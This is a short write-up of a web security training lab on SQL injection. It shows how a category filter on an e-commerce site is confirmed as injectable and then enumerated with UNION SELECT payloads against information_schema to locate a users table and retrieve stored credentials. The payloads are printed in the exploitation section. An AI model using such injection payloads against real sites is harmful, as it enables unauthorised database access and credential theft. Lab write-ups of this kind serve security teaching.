

## Introduction

This lab teaches how to enumerate database contents on a non-Oracle database. The goal is to find the user credentials table and pull the values.

## Recon

The app is the same e-commerce site with categories and a filter parameter. The vulnerable request is the category filter.



## Exploitation

First we confirm the injection with:

```sql
' OR '1'='1' --
```

That returns products from all categories, so the parameter is injectable.

Next we query the information schema with UNION:

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables --
```

That reveals a suspicious table name.

Then we inspect its columns:

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_olfmov' --
```

Finally we retrieve the relevant values from that table and get the credentials needed to solve the lab.


## Conclusion

This lab is a solid introduction to database enumeration using UNION injection. It shows how to move from a simple exploit to dumping stored usernames and passwords.
